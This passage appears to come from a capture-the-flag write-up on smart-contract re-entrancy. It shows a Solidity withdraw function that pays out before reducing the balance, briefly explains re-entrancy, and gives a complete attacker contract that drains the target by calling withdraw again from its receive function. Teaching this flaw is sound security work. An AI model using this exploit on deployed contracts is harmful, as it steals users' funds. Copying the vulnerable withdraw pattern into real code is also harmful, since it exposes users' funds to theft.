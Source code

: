 ```solidity
    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

What does re-entrancy in context of smart contracts mean? It means that a contract calls another contract and the called contract calls back the calling contract before the first call is finished. This can lead to unexpected behavior and can be exploited to drain the funds of the calling contract.


So, here is our attacker contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

abstract contract Reentrance {
    function donate(address _to) virtual external payable;
    function withdraw(uint256 _amount) virtual external;
}

contract Attacker {
    
    Reentrance public re;
    uint public amount_sent;

    constructor(address _contract) {
        re = Reentrance(_contract);
    }

    function attack() external payable {
        amount_sent = msg.value;
        re.donate{value: amount_sent}(address(this));
        re.withdraw(amount_sent);
    }

    receive() external payable {
        uint balanceOfTarget = address(re).balance;
        if (balanceOfTarget >= amount_sent) {
            re.withdraw(amount_sent);
        }
        
    }
}
```
